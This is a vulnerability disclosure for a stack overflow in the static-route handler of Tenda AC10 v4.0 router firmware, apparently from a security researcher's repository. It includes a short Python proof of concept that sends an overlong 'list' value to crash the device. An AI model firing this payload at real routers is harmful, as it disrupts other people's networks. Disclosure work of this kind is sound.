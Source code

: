 ## Overview

- Manufacturer's website information：https://www.tenda.com.cn/

- Firmware download website: https://www.tenda.com.cn/download/detail-3506.html

## Affected version

AC10 v4.0 V16.03.10.13

## Vulnerability details

The Tenda AC10 v4.0 V16.03.10.13 firmware has a stack overflow vulnerability in the `fromSetRouteStatic` function. The `v3` variable receives the `list` parameter from a POST request and is later assigned to function `save_staticroute_data`. 

![image-20240309151923286](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309151923286.png)

In the `save_staticroute_data` function, the `a2` (the value of `list`) is passed to `v5` and formatted by the `sscanf` function and in the form of `%[^,],%[^,],%[^,],%s`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `v15, v16, v17, v18`, it will cause a stack overflow.

![image-20240309151932627](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309151932627.png)

![image-20240309151944197](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309151944197.png)

The user-provided `list` can trigger this security vulnerability.

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetStaticRouteCfg"
payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,a,a,aa"

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240309152255060](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309152255060.png)
